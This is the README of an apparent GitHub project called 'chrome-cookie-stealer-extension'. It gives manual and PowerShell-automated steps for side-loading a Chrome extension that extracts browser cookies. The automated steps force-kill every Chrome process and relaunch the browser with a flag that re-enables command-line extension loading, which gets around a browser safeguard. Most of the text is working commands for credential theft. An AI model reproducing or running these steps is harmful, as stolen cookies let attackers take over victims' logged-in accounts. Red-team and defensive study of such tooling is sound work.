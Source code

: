 # chrome-cookie-stealer-extension

## Manual Cookie Extraction
Update manifest with public key (optional)
1. Go to `chrome://extensions/`
2. Enable "Developer Mode" 
3. Load the folder with the extension. 
4. View cookies in downloads

## Automated Cookie Extraction

0. Optional: Create Public Key and insert into manifest.json

Helps keep track of the extension ID thats going to be loaded  
```powershell
cd chrome-cookie-stealer-extension

#create a public key for the extension
openssl genrsa -out extension.key 2048
openssl rsa -in extension.key -pubout -outform DER -out extension_public.der
[Convert]::ToBase64String([IO.File]::ReadAllBytes("C:\path\to\extension_public.der")) > extension_pubkey_b64.txt

# add base64 key to manifest.json
(Get-Content manifest.json.template -Raw) -replace 'UPDATEME', (Get-Content extension_pubkey_b64.txt -Raw) | Set-Content manifest.json
```

Calculate extension ID
```powershell
# Base64-encoded public key
$base64 = Get-Content "extension_pubkey_b64.txt" -Raw

# Decode the Base64 into bytes (DER-encoded public key)
$pubkeyBytes = [Convert]::FromBase64String($base64)

# Compute SHA256 hash
$sha256 = [System.Security.Cryptography.SHA256]::Create()
$hash = $sha256.ComputeHash($pubkeyBytes)

# Use the first 16 bytes (128 bits) and convert each 4-bit nibble to a letter a-p (extension ID uses base16 a-p encoding)
$extensionId = ""
foreach ($b in $hash[0..15]) {
    $hi = ($b -band 0xF0) -shr 4
    $lo = $b -band 0x0F
    $extensionId += [char](97 + $hi) + [char](97 + $lo)
}

"Extension ID: $extensionId"
```

1. Update manifest.json as needed and load custom extension
```powershell
# all insteances of chrome must be stopped for this to work
Get-Process chrome -ErrorAction SilentlyContinue | Stop-Process -Force

start-process chrome.exe -ArgumentList '--load-extension=C:\Path\To\chrome-cookie-stealer-extension --disable-features=DisableLoadExtensionCommandLineSwitch https://google.com'
```
